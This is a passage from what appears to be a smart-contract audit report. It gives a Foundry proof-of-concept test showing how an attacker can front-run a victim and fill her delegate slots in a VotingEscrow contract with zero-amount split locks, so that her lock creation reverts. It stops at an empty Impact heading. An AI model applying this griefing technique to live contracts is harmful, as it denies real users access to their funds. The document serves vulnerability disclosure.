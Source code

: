 Add the following to test/VotingEscrow.t.sol and run forge test --mt testDepositsBlocked
```javascript
    function testDepositsBlocked() public {
        address alice = vm.addr(1);
        address attacker = vm.addr(2);
        uint256 maxtime = 52 * 7 * 24 * 3600; // 52 weeks
        
        // get LP tokens
        FLOW.mint(address(attacker), TOKEN_1M);
        DAI.mint(address(attacker), TOKEN_1M);
        FLOW.mint(address(alice), TOKEN_1M);
        DAI.mint(address(alice), TOKEN_1M);

        vm.startPrank(address(attacker));
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(attacker), block.timestamp);
        vm.stopPrank();

        vm.startPrank(address(alice));
        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, address(alice), block.timestamp);
        vm.stopPrank();

        // attacker front-runs alice's attempt to lock tokens and delegates MAX_DELEGATES to her
        vm.startPrank(address(attacker));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(1, maxtime);
        for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            escrow.split(tokenId, 0); // split 0 amount
            escrow.delegate(address(alice));
        }
        vm.stopPrank();

        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 2);

        // alice attempts to lock but reverts
        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        vm.expectRevert("dstRep would have too many tokenIds");
        escrow.create_lock(TOKEN_1, maxtime);
        vm.stopPrank();
    }
```

## Impact
